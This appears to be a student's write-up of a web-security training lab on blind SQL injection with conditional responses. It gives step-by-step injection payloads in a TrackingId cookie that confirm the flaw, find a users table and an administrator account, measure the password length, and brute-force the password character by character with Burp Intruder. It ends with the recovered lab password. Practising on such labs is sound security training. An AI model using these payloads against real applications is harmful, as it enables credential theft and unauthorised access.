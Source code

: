Lab 11 - Blind SQL injection with conditional responses

1) Confirm that the parameter is vulnerable to blind SQLi
testing for response with welcome back massage
by payload

TrackingId=1k2UOfwhpyOj77BA' and 1=1--

the massgae come back that means that the parameter is vulnerable to blind SQLi

3) Confirm that we have a users table
using payload
trackingId = '1k2UOfwhpyOj77BA' and (select 'x' from users LIMIT 1)='x'--'

the massgae come back that means that the users table is in database

5) Confirm that username administrator exists users table
using payload
' and (select username from users where username='administrator')='administrator'--'

the massgae come back that means that the users administrator is in database

7) knowing  the password length of the administrator user
using payload with burp intruder to bruteforce the length of password
' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'--'

i found password is 20 characters

8) brute force the password
using burp intruder to brute force the characters
with two payloads one on the character index and one on every character to guess it
and filter for welcome word
' and (select substring(password,2,1) from users where username='administrator')='a'--'

![image](https://github.com/user-attachments/assets/5bb4a248-13f5-4a95-bb7b-98df308d0478)
the password is
r3s1k6jwbwn9qu94h4qm

